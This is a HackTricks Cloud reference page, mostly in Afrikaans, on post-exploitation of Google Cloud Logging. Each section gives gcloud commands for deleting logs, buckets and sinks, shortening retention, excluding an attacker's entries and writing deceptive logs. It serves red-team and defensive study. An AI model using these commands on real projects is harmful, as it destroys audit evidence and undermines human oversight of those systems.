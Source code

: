 # GCP - Logging Post Exploitation

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basiese Inligting

Vir meer inligting, kyk:

{% content-ref url="../gcp-services/gcp-logging-enum.md" %}
[gcp-logging-enum.md](../gcp-services/gcp-logging-enum.md)
{% endcontent-ref %}

Vir ander maniere om monitering te ontwrig, kyk:

{% content-ref url="gcp-monitoring-post-exploitation.md" %}
[gcp-monitoring-post-exploitation.md](gcp-monitoring-post-exploitation.md)
{% endcontent-ref %}

### Standaard Logging

**Deur die standaard sal jy nie gevang word net vir die uitvoering van lees aksies nie. Vir meer inligting, kyk na die Logging Enum afdeling.**

### Voeg Uitsonderlike Principaal By

In [https://console.cloud.google.com/iam-admin/audit/allservices](https://console.cloud.google.com/iam-admin/audit/allservices) en [https://console.cloud.google.com/iam-admin/audit](https://console.cloud.google.com/iam-admin/audit) is dit moontlik om principals by te voeg om nie logs te genereer nie. 'n Aanvaller kan dit misbruik om te voorkom dat hy gevang word.

### Lees logs - `logging.logEntries.list`

{% code overflow="wrap" %}
```bash
# Read logs
gcloud logging read "logName=projects/your-project-id/logs/log-id" --limit=10 --format=json

# Everything from a timestamp
gcloud logging read "timestamp >= \"2023-01-01T00:00:00Z\"" --limit=10 --format=json

# Use these options to indicate a different bucket or view to use: --bucket=_Required  --view=_Default
```
{% endcode %}

### `logging.logs.delete`

{% code overflow="wrap" %}
```bash
# Delete all entries from a log in the _Default log bucket - logging.logs.delete
gcloud logging logs delete <log-name>
```
{% endcode %}

### Skryf logs - `logging.logEntries.create`

{% code overflow="wrap" %}
```bash
# Write a log entry to try to disrupt some system
gcloud logging write LOG_NAME "A deceptive log entry" --severity=ERROR
```
{% endcode %}

### `logging.buckets.update`

{% code overflow="wrap" %}
```bash
# Set retention period to 1 day (_Required has a fixed one of 400days)

gcloud logging buckets update bucketlog --location=<location> --description="New description" --retention-days=1
```
{% endcode %}

### `logging.buckets.delete`
```bash
# Delete log bucket
gcloud logging buckets delete BUCKET_NAME --location=<location>
```
### `logging.links.delete`

{% code overflow="wrap" %}
```bash
# Delete link
gcloud logging links delete <link-id> --bucket <bucket> --location <location>
```
{% endcode %}

### `logging.views.delete`
```bash
# Delete a logging view to remove access to anyone using it
gcloud logging views delete <view-id> --bucket=<bucket> --location=global
```
### `logging.views.update`

{% code overflow="wrap" %}
```bash
# Update a logging view to hide data
gcloud logging views update <view-id> --log-filter="resource.type=gce_instance" --bucket=<bucket> --location=global --description="New description for the log view"
```
{% endcode %}

### `logging.logMetrics.update`

{% code overflow="wrap" %}
```bash
# Update log based metrics - logging.logMetrics.update
gcloud logging metrics update <metric-name> --description="Changed metric description" --log-filter="severity>CRITICAL" --project=PROJECT_ID
```
{% endcode %}

### `logging.logMetrics.delete`
```bash
# Delete log based metrics - logging.logMetrics.delete
gcloud logging metrics delete <metric-name>
```
### `logging.sinks.delete`
```bash
# Delete sink - logging.sinks.delete
gcloud logging sinks delete <sink-name>
```
### `logging.sinks.update`

{% code overflow="wrap" %}
```bash
# Disable sink - logging.sinks.update
gcloud logging sinks update <sink-name> --disabled

# Createa filter to exclude attackers logs - logging.sinks.update
gcloud logging sinks update SINK_NAME --add-exclusion="name=exclude-info-logs,filter=severity<INFO"

# Change where the sink is storing the data - logging.sinks.update
gcloud logging sinks update <sink-name> new-destination

# Change the service account to one withuot permissions to write in the destination - logging.sinks.update
gcloud logging sinks update SINK_NAME --custom-writer-identity=attacker-service-account-email --project=PROJECT_ID

# Remove explusions to try to overload with logs - logging.sinks.update
gcloud logging sinks update SINK_NAME --clear-exclusions

# If the sink exports to BigQuery, an attacker might enable or disable the use of partitioned tables, potentially leading to inefficient querying and higher costs. - logging.sinks.update
gcloud logging sinks update SINK_NAME --use-partitioned-tables
gcloud logging sinks update SINK_NAME --no-use-partitioned-tables
```
{% endcode %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
